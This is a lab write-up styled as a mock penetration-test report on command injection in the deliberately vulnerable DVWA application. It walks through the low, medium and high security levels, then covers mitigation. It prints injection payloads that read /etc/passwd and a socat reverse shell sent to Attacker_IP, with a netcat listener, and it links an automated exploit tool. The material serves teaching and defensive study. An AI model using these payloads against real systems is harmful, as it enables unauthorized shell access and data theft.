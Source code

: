 # Command Injection Vulnerabilty and RCE in DVWA  

## Table of Contents
- [**Outline**](#section-0)
- [**Vulnerabiltiy Explanation**](#section-1)
- [ **Proof of Concept - Creating a Reverse Shell**](#section-2)
- [**Developing a Tool**](#section-3)
- [**Mitigating Command Injection Attacks**](#section-4)

## Outline {#section-0}
The goal of this write-up is to document and demonstrate various OS command injection attacks performed  against the  Damn Vulnerable Web Application (DVWA) input field. The objective of this attack was to gain unathorized access to the system as `www-data` service user.This report mocks a penetration testing report and a debriefing situation to a client.

## Vulnerabiltiy Explanation {#section-1}
A command injection vulnerability is a security flaw in a system that allows attackers to execute arbitrary commands on the host's operating system. This is a serious security flaw
as it allows attackers to gain unauthorized access, opening further attack vectors for the attacker. If the application/user has high privilege a compromised system could extend beyond the host system and impact the entire network or infrastructure.

| Information | Explanation                                                                      |
|-------------|----------------------------------------------------------------------------------|
| Name        | Command Injection                                                                |
| Severity    | High                                                                             |
| CVSS        | 8.4                                                                              |
| Path        | http://127.0.0.1/vulnerabilities/exec/



The base CVSS was calculated upon the following metrics.  

| Base Metrics               | Explanations                                                                                             |
|----------------------------|----------------------------------------------------------------------------------------------------------|
| Attack Vector (AV)         | Network(N) The vulnerability can be exploited remotely over a network connection.                        |
| Attack Complexity (AC)     | Low (L) The vulnerability is straightforward and requires minimal or no special knowledge.               |
| Privilege Required (PR)    | Low (L) Teh attack requires some privilege. The user has to login to DVWA webpage to conduct the exploit |
| User Intercation (UI)      | None (N) The vulnerability can be exploited without any user interaction.                                |
| Scope (S)                  | Unchanged(S:U) An exploit can only affect the specific system                                            |
| Confidentiality Impact (C) | Medium (M) The vulnerability has medium impact on  the confidentiality of information.                   |
| Integrity Impact (I)       | High (H) The vulnerability has a signigicant impact on the integrity of the information                  |
| Availability Impact (A)    | High (H) The vulnerability has a significant impact on the availability of the system or resource.       |


## Proof of Concept {#section-2}
For the Proof of Concept (POC) in the `Security-Low-Level` module, the tester has manually discovered that the input field is vulnerable to command injection. By providing an IP address augmented with the `&&` operator and a preferred command, such as `/etc/passwd`, the tester  was able to view sensitive data from the system. The `&&` operator executes the first command and then proceeds to the next command, enabling the testers to execute any command.
```bash
127.0.0.1 && cat /etc/passwd 
``` 
![](/assets/cinject/exposed.gif)

The tester has also further discovered that the input field is vulnerable to other operators, such as `;`, `|`, `&` and `||`. This vulnerability exists primarily due to lack of input validation and sanitization. It can be seen from the source code that there is zero meaures to validate or sanitize user input. 
  ![](/assets/cinject/low.png)

For the `Security-Medium-Level` module, after some trial and error, the tester figured out that the input field was still vulnerable to the pip operator `|` and led to the same result as the above. There were some sanitization but was not extensive with the various operators, leaving the application largly vulnerable.
![](/assets/cinject/medium.png)


After some more trial and error with the `Security-High-Level` module, the tester has discovered that the `|` pipe operator was still vulnerable. Upon closer inspection of the source code, the tester identified a minor mistake in the sanitization of user input. Instead of replacing the pipe operator `|` with a blank string as intended , the developer mistakenly added a blank space within the operator `'| '`, which does not exactly target the pip operator as intended. Thus the code resulted in inadequate sanitization of user input.
![](/assets/cinject/High.png)


## Establishing a Reverse Shell {#section-2}
To take steps further, the tester has made use of `socat`, a popular networking tool, to create a reverse TCP connection back to the testing machine establishing a reverse shell.  First the tester created a socat listener on the attacking machine and executed a socat reverse shell in the input field using the following commands.
```bash
nc -nlvp 1337
``` 
```bash
127.0.0.1|socat tcp-connect:Attacker_IP:1337 exec:bash
``` 
![](/assets/cinject/reverseShell.gif)

The tester was granted a full command-line interface shell, offering complete control over the compromised system. This provided the ability to execute commands and easily navigate the file system, opening up possibilities for potential privilege escalation and lateral movement within the internal network.

Initially, attempts to establish a reverse shell using `bash` and `netcat` were unsuccessful. However, through further trial and error using different networking tools such as `socat`, a successful reverse shell was achieved. This highlights the importance of persistence, experimentation, and utilizing a variety of tools during a penetration test.


## Developing a Python Tool {#section-3}
To streamline and automate the process, the tester has developed a Python script that scans for command injection vulnerabilities and, upon successful identification, proceeds to execute a Remote Code Execution (RCE). This approach simplifies the task and enhances efficiency in identifying and leveraging potential security weaknesses.
The script can be found here [Kwang Command Injection RCE Tool](https://github.com/Kwangyun/Web-Automation-Tools/blob/main/CInjectionRCE.py) \
![](/assets/cinject/myScript.gif)
The following is a code snippet of the script.
![](/assets/cinject/codesnipet.png)

## Mitigating Command Injection Attacks {#section-4}

Never call out to OS commands from application-layer code but use, built in functions and API's

### User Input Validation
User Input Validation involves verifying whether a user's input satisfies the conditions established by the developer. There are two primary approaches to input validation: the Blacklist-based approach and the Whitelist-based approach.  
#### Blacklist-based approach
The Blacklist-based approach entails checking whether the user input contains any characters present in a predefined blacklist. However, this method is susceptible to human error, as exemplified by the `Security-High-Level` module, and is therefore not recommended.
#### Whitelist-based approch
In contrast, the Whitelist-based approach checks input values against a predefined list of permitted values. In this approach, the application ensures that the input matches safe and expected values. For example, in this application, the developers could have verified that the user input is an alphanumeric string in the form of an IP address, consisting of four octets, without any additional syntax or whitespace.

## User Input Sanitization
Contrary to user input validation, user input sanitization  modifies or removes potentially harmful elements from the input data. The objective of input sanitization is to enhance the security and integrity of the application by neutralizing or eliminating any characters or patterns that could be exploited.
Filtering
Reference: [Grootboan Security](https://security.grootboan.com/)
            [PortSwigger](https://portswigger.net/web-security/os-command-injection)